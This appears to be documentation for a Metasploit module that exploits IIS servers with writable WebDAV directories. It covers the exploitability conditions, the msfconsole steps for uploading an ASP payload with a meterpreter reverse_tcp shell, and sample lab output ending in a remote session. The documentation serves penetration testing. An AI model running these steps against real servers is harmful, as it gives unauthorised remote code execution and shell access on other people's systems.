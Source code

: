 ## Description

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. 

**IMPORTANT:** The target IIS machine must meet these conditions to be considered as exploitable:-
1. It allows 'Script resource access'.
2. It allows Read and Write permission.
3. It supports ASP.

## WebDAV

Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

## Verification Steps

1. Do: ```use exploit/windows/iis/iis_webdav_upload_asp```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set RHOST [IP]```
3. Do: ```set PATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/windows/iis/iis_webdav_upload_asp
msf exploit(iis_webdav_upload_asp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(iis_webdav_upload_asp) > set RHOST 172.16.176.54
RHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set LHOST 172.16.176.56
LHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set path /upload/test.asp
path => /upload/test.asp
msf exploit(iis_webdav_upload_asp) > exploit

[*] Started reverse handler on 172.16.176.56:4444
[*] Uploading 613830 bytes to /upload/test.txt...
[*] Moving /upload/test.txt to /upload/test.asp...
[*] Executing /upload/test.asp...
[*] Sending stage (770048 bytes) to 172.16.176.54
[*] Deleting /upload/test.asp, this doesn't always work...
[!] Deletion failed on /upload/test.asp [403 Forbidden]

meterpreter > getuid
Server username: JUAN-C0DE875735\IWAM_JUAN-C0DE875735
meterpreter >
```
